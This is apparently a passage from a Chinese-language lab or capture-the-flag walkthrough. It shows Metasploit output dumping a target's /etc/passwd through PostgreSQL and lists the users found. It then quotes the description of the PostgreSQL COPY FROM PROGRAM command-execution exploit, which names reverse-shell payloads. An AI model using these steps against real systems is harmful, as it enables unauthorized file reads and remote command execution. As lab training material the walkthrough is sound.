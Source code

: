 ```
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    uuidd:x:107:111::/run/uuidd:/bin/false
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

#/home/dark/credentials.txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
alison:x:1000:1000:Poster,,,:/home/alison:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:109:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
dark:x:1001:1001::/home/dark:
[+] 10.10.205.125:5432 Postgres - /etc/passwd saved in /root/.msf4/loot/20230813235707_default_10.10.205.125_postgres.file_263247.txt
[*] Auxiliary module execution completed
```

目标上的用户有：root、alison、dark。

[PostgreSQL COPY FROM PROGRAM Command Execution](https://www.rapid7.com/db/modules/exploit/multi/postgres/postgres_copy_from_program_cmd_exec/)

PostgreSQL COPY FROM PROGRAM Command Execution

Installations running Postgres 9.3 and above have functionality which allows for the superuser and users with 'pg_execute_server_program' to pipe to and from an external program using COPY. This allows arbitrary command execution as though you have console access. This module attempts to create a new table, then execute system commands in the context of copying the command output into the table. This module should work on all Postgres systems running version 9.3 and above. For Linux & OSX systems, target 1 is used with cmd payloads such as: cmd/unix/reverse_perl For Windows Systems, target 2 is used with powershell payloads such as: cmd/windows/powershell_reverse_tcp Alternativly target 3 can be used to execute generic commands, such as a web_delivery meterpreter powershell payload or other customised command.
